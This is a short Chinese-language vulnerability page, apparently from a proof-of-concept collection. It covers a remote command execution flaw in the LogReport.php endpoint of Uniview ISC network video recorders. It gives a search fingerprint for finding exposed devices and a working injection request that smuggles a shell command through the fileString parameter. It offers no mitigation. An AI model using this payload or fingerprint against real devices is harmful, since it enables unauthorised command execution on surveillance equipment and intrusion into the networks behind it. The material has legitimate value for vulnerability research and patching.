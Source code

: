 # 浙江宇视科技 网络视频录像机 ISC LogReport.php 远程命令执行漏洞

## 漏洞描述

浙江宇视科技 网络视频录像机 ISC /Interface/LogReport/LogReport.php 页面，fileString 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

<a-checkbox checked>浙江宇视科技 网络视频录像机 ISC</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="uniview-ISC"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645887597864-478bdd00-527b-4a78-a161-f7bbf022a0d5.png)

验证POC

```javascript
/Interface/LogReport/LogReport.php?action=execUpdate&fileString=x;id>1.txt
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645887664378-917e4c3f-62cc-4dd2-9faa-eb8aeadd734d.png)



